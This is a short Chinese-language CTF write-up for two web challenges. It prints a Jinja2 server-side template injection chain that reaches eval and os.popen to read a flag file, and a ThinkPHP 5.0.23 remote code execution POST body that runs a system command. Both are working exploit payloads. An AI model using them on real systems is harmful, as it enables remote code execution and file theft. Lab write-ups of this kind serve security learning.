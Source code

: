 Web

## fake google

> 知识点：SSTI

> 题解

1. 根据源代码注释提示，SSTI模板注入
2. 注入

```
{% for c in [].__class__.__base__.__subclasses__() %}
{%if c.__name__=='catch_warnings' %}
{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat /flag').read()")}}
{%endif%}
{% endfor %}
```

## old-hack

> 知识点：ThinkPHP5.0.23 远程RCE

> 题解

```
POST http://244a0b0a-7187-4c12-b732-c4c75557924b.node3.buuoj.cn/?s=captcha

{
    "_method": "__construct",
    "filter[]": "system",
    "server[REQUEST_METHOD]": "cat /flag"
}
```

> flag{5c1565e5-6062-4416-b15a-75d3bc704bc6}